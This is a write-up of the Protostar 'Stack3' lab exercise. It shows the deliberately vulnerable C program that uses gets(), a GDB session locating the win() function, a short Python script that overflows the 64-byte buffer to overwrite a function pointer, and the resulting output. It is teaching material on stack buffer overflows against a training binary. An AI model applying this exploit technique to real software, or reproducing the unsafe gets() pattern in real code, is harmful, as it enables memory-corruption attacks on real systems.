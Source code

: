# Stack3 Solution

## C Code

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

* both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Exploit

In this C code, there are **two functions**. `main()`, and `win()`. Our **target is to get to** the `win()` function by overwriting the `fp` **function pointer**. To do that, we have to **find the memory address** of `win()`, then append that to **the padding used to fill** up `buffer` by exploiting the `gets()` function with a **buffer overflow attack**, as we have done before. To find the memory address of `fp`, we need to use a debugger like **GDB**.

First, we need to open `stack3` with `gdb`. Run this command to do that.

```bash
user@protostar:/opt/protostar/bin$ stack3
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) 
```

Now while in the **GDB debugger**, to disassemble the `main()` function, enter these commands:

```bash
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave  
0x08048478 <main+64>:   ret    
End of assembler dump.
(gdb) 
```

This **disassembles** the `main()` function into **intel assembly**. This command is very useful for getting **memory addresses of instructions** and **reverse engineering**, but that is not what we are here for. We need the **memory address of** the `win()` function.

To get the **memory address** of the `win()` function, enter this command.

```bash
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
```

What this command does essentially is just **print** (`p`) out the `win()` function (`win`). This is just **shortened** to `p win`.

Now that we have the memory address (`0x8048424`), we can just **pad** `buffer` and **attach the address** to jump to the `win()` function, **completing our challenge!**

Here is the exploit code (`/tmp/exploit.py`):

```python
import struct

padding = "A" * 64
win_func = struct.pack("I", 0x8048424)

print(padding + win_func)
```

**To run**: 

```bash
python /tmp/exploit.py | /opt/protostar/bin/stack3
```

**Result**:

```bash
calling function pointer, jumping to 0x8048424
code flow successfully changed
```

## Resources

* [C Code](https://exploit.education/protostar/stack-three/)
* [GDB Tutorial by NeuralNine](https://www.youtube.com/watch?v=ny6y0pPO--4&ab_channel=NeuralNine)